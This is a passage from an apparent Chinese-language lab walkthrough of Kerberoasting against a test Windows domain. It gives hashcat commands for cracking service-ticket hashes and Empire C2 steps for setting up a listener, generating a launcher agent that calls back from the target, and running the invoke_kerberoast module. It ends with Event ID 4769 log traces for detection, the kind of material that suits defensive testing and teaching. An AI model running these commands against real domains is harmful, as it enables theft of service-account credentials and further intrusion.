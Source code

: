 4. **传输哈希文件**：
   将`kerberoast_hashes.txt`复制到Kali。

5. **破解哈希**：
   ```bash
   hashcat -m 13100 -a 0 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
   ```
   - 输出示例：`MSSQLSvc/DC1.test.com:Password123`

6. **结果分析**：
   - 成功：获得服务账户密码，可用于进一步攻击。
   - 失败可能：
     - 域用户权限不足。
     - SPN未正确注册。
     - 密码字典不包含目标密码。

#### 测试2：使用Empire进行Kerberoasting
1. **启动Empire**：
   在Kali上：
   ```bash
   empire
   ```

2. **配置监听器**：
   ```powershell
   (Empire)> listeners
   (Empire)> uselistener http
   (Empire)> execute
   ```

3. **生成Agent**：
   ```powershell
   (Empire)> usestager multi/launcher
   (Empire)> set Listener http
   (Empire)> execute
   ```

4. **在靶机执行Agent**：
   在WindowsServer2016上运行生成的PowerShell脚本，建立与Empire的连接。

5. **执行Kerberoasting**：
   ```powershell
   (Empire)> usemodule credentials/invoke_kerberoast
   (Empire)> set OutputFormat Hashcat
   (Empire)> execute
   ```

6. **破解哈希**：
   重复测试1的步骤4-5。

7. **结果分析**：
   - 成功：通过Empire自动化提取并破解服务账户密码。
   - 失败可能：Agent连接失败或网络限制。

## 测试留痕

### Windows安全日志
- 事件ID4769：
  ```
  事件ID:4769
  服务名称:MSSQLSvc/DC1.test.com
  账户名:user1
  账户域:TEST
  客户端地址:::ffff:192.168.1.100
  票证选项:0x40810000
  票证加密类型:0x17
  ```
